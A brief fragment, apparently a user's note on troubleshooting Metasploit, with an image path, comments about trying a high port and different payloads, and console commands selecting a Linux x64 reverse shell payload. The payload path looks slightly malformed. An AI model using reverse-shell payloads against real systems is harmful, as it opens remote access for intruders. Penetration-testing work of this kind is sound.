 # Trying to use high port on Metasploit
# Trying different payloads for the exploit
```
show payloads
set payload /linux/x64/reverse_shell_tcp
```